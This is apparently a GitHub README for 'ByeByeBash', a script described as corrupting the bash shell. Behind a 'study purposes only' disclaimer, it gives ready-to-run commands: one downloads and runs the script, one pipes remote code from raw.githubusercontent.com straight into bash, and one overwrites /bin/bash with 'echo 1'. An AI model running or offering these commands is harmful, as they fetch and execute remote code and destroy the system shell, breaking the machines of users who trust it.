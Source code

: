 # ByeByeBash
Simple Script to Corrupt Bash

# ⚠->Warning<-⚠
THIS CODE IS FOR STUDY PURPOSES ONLY<br>
DO NOT USE FOR MALICIOUS PURPOSES<br>
I AM NOT RESPONSIBLE FOR POSSIBLE DAMAGE CAUSED BY THIS CODE<br>

# How to Use
## Download
```sh
curl https://raw.githubusercontent.com/chaoticofchaos/ByeByeBash/main/bye_bye_bash.sh > bye_bye_bash.sh
chmod +x bye_bye_bash.sh
./bye_bye_bash.sh
```

## Auto Inject
```sh
curl https://raw.githubusercontent.com/chaoticofchaos/ByeByeBash/main/bye_bye_bash.sh | /bin/bash
```

## Straight Injection
```sh
echo "echo 1" > /bin/bash
```

# Funny Fact
I Accidentally Discovered That Exploit Because I Want to Automatically Use Bash Scripts From Internet, And Accidentally Use ">" instead "|" and Accidentally Corrupted my Bash :(
